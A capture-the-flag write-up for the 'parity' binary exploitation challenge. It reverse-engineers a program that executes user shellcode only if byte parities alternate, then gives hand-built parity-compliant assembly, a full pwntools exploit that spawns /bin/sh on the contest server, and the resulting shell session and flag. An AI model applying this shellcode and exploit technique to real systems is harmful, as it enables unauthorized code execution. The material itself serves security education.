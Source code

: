 ![Task](task.png)

Let's analyze this binary file:
```
$ checksec parity
[*] '/home/tomasgl/ctf/angstorm/parity/parity'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  __gid_t rgid; // [rsp+18h] [rbp-8h]
  int i; // [rsp+1Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  printf("> ");
  buf = mmap(0LL, 0x2000uLL, 7, 34, 0, 0LL);
  v4 = read(0, buf, 0x2000uLL);
  for ( i = 0; i < v4; ++i )
  {
    if ( (*((_BYTE *)buf + i) & 1) != i % 2 )
    {
      puts("bad shellcode!");
      return 1;
    }
  }
  ((void (__fastcall *)(_QWORD))buf)(0LL);
  return 0;
}
```

After reverse engineering of the executable file, it becomes clear that you need to build a shellcode in which the first byte will be even, the second odd, the third even, etc.
But it is impossible to create a shellcode (for this architecture) that will meet the criteria, because in this case it will contain a `syscall` that has only odd bytes:
```python
In [1]: from pwn import *

In [2]: check = lambda code: list(map(lambda s: s&1, code))

In [3]: check(asm('syscall'))
Out[3]: [1, 1]
```
So we need to go the other way. Let's create a shellcode that will run the `read` function from the `plt` table (0x4010f4) again and execute your code without restrictions.
The set of assembly instructions is strictly limited.
```asm
// 0 1 0 1
xor rax, 0x40-1
// 0 1 0
inc rax
// 1
cdq
// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1
// 1
cdq
// 0 1 0 1
xor rax, 9
// 0 1 0 1
add rax, 7

// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1

// 1
cdq
// 0 1 0 1
xor rax, 0x7f
add rax, 0x75
xor rdx, 0x71
// 0
nop
// 1 0
call rax
```
I used the `nop` and `cdq` instructions to observe the parity sequence.
As a result, the necessary parameters will be passed to the `read` function, and it will write our data to the same section of the code. Next, you need to send the shellcode itself with the call `/bin/sh`.
Final exploit:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ template template --host challs.actf.co --port 31226 parity
from pwn import *
from time import sleep

# Set up pwntools for the correct architecture
elf = context.binary = ELF('parity')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challs.actf.co'
port = int(args.PORT or 31226)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *main+255
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

shellcode = asm('''
// 0 1 0 1
xor rax, 0x40-1
// 0 1 0
inc rax
// 1
cdq
// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1
// 1
cdq
// 0 1 0 1
xor rax, 9
// 0 1 0 1
add rax, 7

// 0 1 0 1
shl rax, 7
// 0 1 0
shl rax, 1

// 1
cdq
// 0 1 0 1
xor rax, 0x7f
add rax, 0x75
xor rdx, 0x71
// 0
nop
// 1 0
call rax
''')

print(hexdump(shellcode))
io.send(shellcode)
sleep(5)
payload = fit({
     len(shellcode): asm(shellcraft.sh())
    })
print(hexdump(payload))
io.send(payload)
io.interactive()
```

```
$ python exploit.py 
[*] '/home/tomasgl/ctf/angstorm/parity/parity'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.actf.co on port 31226: Done
00000000  48 83 f0 3f  48 ff c0 99  48 c1 e0 07  48 d1 e0 99  │H··?│H···│H···│H···│
00000010  48 83 f0 09  48 83 c0 07  48 c1 e0 07  48 d1 e0 99  │H···│H···│H···│H···│
00000020  48 83 f0 7f  48 83 c0 75  48 83 f2 71  90 ff d0     │H···│H··u│H··q│···│
0000002f
00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 6a  │iaaa│jaaa│kaaa│laaj│
00000030  68 48 b8 2f  62 69 6e 2f  2f 2f 73 50  48 89 e7 68  │hH·/│bin/│//sP│H··h│
00000040  72 69 01 01  81 34 24 01  01 01 01 31  f6 56 6a 08  │ri··│·4$·│···1│·Vj·│
00000050  5e 48 01 e6  56 48 89 e6  31 d2 6a 3b  58 0f 05     │^H··│VH··│1·j;│X··│
0000005f
[*] Switching to interactive mode
> $ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
actf{f3els_like_wa1king_down_4_landsl1de_6d28d72fd7db}
$
```